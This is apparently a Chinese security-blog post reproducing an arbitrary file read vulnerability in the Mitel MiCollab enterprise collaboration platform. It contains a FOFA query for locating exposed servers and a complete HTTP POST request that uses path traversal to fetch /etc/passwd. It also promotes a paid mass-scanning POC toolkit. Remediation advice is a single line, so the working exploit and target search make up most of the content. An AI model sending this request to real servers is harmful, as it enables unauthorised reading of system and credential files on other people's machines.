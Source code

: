 #  Mitel企业协作平台存在任意文件读取漏洞 附POC   
2025-3-25更新  南风漏洞复现文库   2025-03-25 23:23  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. Mitel企业协作平台简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
Mitel企业协作平台  
## 2.漏洞描述  
  
Mitel企业协作平台存在任意文件读取漏洞  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
Mitel企业协作平台  
  
![Mitel企业协作平台存在任意文件读取漏洞](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3Yc6nwAcD8G9qiaBpbrjEWRSOLMgaDYY6JBFic37OveNECD1qNmUMTme8qdiam3FB0jKd2NqW7bA6LeQ/640?wx_fmt=png&from=appmsg "null")  
  
Mitel企业协作平台存在任意文件读取漏洞  
## 4.fofa查询语句  
  
body="MiCollab End User Portal"  
## 5.漏洞复现  
  
漏洞链接：https://xx.xx.xx.xx/npm-pwg/..;/ReconcileWizard/reconcilewizard/sc/IDACall?isc_rpc=1&isc_v=&isc_tnum=2  
  
漏洞数据包：  
```
POST /npm-pwg/..;/ReconcileWizard/reconcilewizard/sc/IDACall?isc_rpc=1&isc_v=&isc_tnum=2 HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: xx.xx.xx.xx
Content-Length: 683
Content-Type: application/x-www-form-urlencoded

_transaction=<transaction xmlns:xsi="http://www.w3.org/2000/10/XMLSchema-instance" xsi:type="xsd:Object"><transactionNum xsi:type="xsd:long">2</transactionNum><operations xsi:type="xsd:List"><elem xsi:type="xsd:Object"><criteria xsi:type="xsd:Object"><reportName>../../../etc/passwd</reportName></criteria><operationConfig xsi:type="xsd:Object"><dataSource>summary_reports</dataSource><operationType>fetch</operationType></operationConfig><appID>builtinApplication</appID><operation>downloadReport</operation><oldValues xsi:type="xsd:Object"><reportName>x.txt</reportName></oldValues></elem></operations><jscallback>x</jscallback></transaction>&protocolVersion=1.0&__iframeTarget__=x
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Yc6nwAcD8G9qiaBpbrjEWRSkPEJsVIPVxkCnQZTUHnpaia5aD2e8CcWQKqicVVTQf9GtcsRSGIaUWDg/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
2: 免登录，免费fofa查询。  
3: 更新其他实用网络安全工具项目。  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Yc6nwAcD8G9qiaBpbrjEWRSpnhMVqFq1F1oueCZnt4mxlScyG651GLX3R1AU5H7quQwlTLMPyyl2A/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Yc6nwAcD8G9qiaBpbrjEWRSPtibAic6iaia3ff1HxZpv4ibgLibqibFpFAjCnRjKSPl9A7LKu7zBZJVfERGw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Yc6nwAcD8G9qiaBpbrjEWRSjJezSrV9riawJvwiaI2LqsAic6STO3zMibBuwP3h7qtOXr9h4W1wY1KQ7w/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Yc6nwAcD8G9qiaBpbrjEWRSFfA6ic3VTCeFxQHWyu2ItRckjuJfia0wL3kSynvUYV4iazDhq8Y3yl1JA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Yc6nwAcD8G9qiaBpbrjEWRSfAHZiaff5RIHBBRLEolgDP9XicbEg4xUVxXkYmclia06mwJPbGDicPE8AA/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
打补丁  
## 8.往期回顾  
  
  
  
